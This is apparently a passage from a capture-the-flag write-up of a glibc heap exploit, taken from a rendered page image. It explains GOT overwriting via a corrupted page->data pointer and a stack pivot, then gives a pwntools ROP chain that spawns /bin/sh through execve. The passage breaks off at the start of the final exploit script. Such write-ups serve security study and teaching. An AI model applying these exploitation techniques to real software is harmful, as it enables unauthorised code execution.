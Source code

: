 
```asm
# Special gadget at beginning of .plt section

push   QWORD PTR [rip+0x1f1002]         # 0x7ffff7e19008
bnd jmp QWORD PTR [rip+0x1f1003]        # 0x7ffff7e19010
```

This is super powerful, we basically can push any value on the stack and then
execute an arbitrary piece of code.

My solution was to push an address where I can write after the `GOT` of `glibc`
and then jump to a stack pivot gadget that will move the stack to said address.
The plan is therefore to write the needed values in the entries at `.got.plt+8`
and `.got.plt+16`, spray the `GOT` with the special gadget from the `.plt`
section and write a **ROP chain** to the address where I will stack pivot.

```python
# Reclaim extra chunks that are in unsorted bins list
add(0x418, b"FILLING", b"META_FILLING")         # idx: 1

# ROP chain on GOT@libc
# Overwrite page->data pointer to get arbitrary write
payload = b"+" * 0x438
payload += p64(0x421)                           # size for page chunk
payload += p64(0xdead)                          # page->size
payload += p64(libc.address + GOT_OFF)          # page->data
add(0x500, payload, b"META_OVERWRITE")          # idx: 6
# Vuln now points to GOT@libc
payload = p64(0)
payload += p64(libc.address + GOT_OFF + 0x100)  # Address of our ROP chain
payload += p64(libc.address + POP_RSP)          # Stack pivot first gadget
payload += p64(libc.address + PLT0) * 0x1d      # Fill GOT with magic gadget
# ROP chain starts here
payload += p64(libc.address + POP_RDI)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.address + POP_RSI)
payload += p64(0)
payload += p64(libc.address + POP_RDX_POP_RBX)
payload += p64(0) * 2
payload += p64(libc.address + POP_RAX)
payload += p64(0x3b)                            # Execve syscall
payload += p64(libc.address + SYSCALL)
edit(4, payload)
```

To finalize the exploit, as I mentioned in the creation of the fake chunk phase,
we need to adjust the exploit to bruteforce 4 bits of `ASLR`, but that is pretty
easy. The final exploit looks something like this:

## Exploit

```python
#!/bin/env python3

from pwn import *

#
# INIT
#
libc = ELF("./glibc/libc.so.6", False) # Using libc to retrieve offsets

#
# UTILS
#
GOT_OFF = libc.dynamic_value_by_tag("DT_PLTGOT")
PLT0 = libc.get_section_by_name(".plt").header.sh_addr
```